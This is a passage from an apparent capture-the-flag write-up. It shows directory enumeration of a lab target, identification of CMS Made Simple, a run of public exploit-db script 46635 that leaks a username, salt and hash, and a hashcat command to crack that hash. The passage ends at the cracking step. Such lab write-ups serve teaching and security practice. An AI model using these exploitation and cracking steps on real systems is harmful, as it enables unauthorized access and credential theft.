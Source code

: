 ```java
===============================================================
/simple               (Status: 301) [Size: 311] [--> http://TARGET_IP/simple/]
Progress: 1942 / 1943 (99.95%)
===============================================================
Finished
===============================================================

```



i found ``/simple`` 
```java
http://TARGET_IP/simple
```

![simple](https://hackmd.io/_uploads/ry94Uzpsye.png)


when i go down and focus on the footer i found: 

![simple2](https://hackmd.io/_uploads/B1_ePzaoJx.png)



i found ``CMS Made Simple`` version 

Then I searched for this version in the ``exploit database``

```
https://www.exploit-db.com/exploits/46635
```

![exploitdb](https://hackmd.io/_uploads/Sy7BOfao1g.png)


After that i download the Exploit file and run it :  

```java
python3 46635.py -u http://TARGET_IP/simple
```

``
Output:
``

```ruby
[+] Salt for password found: [redacted]
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: ################################
```                 

We have a salted hash for mitch. This looks like MD5, so let’s fire up hashcat.

```basg
hashcat -O -a 0 -m 20 ################################:1dac0d92e9fa6bb2 /usr/share/wordlists/rockyou.txt 
```
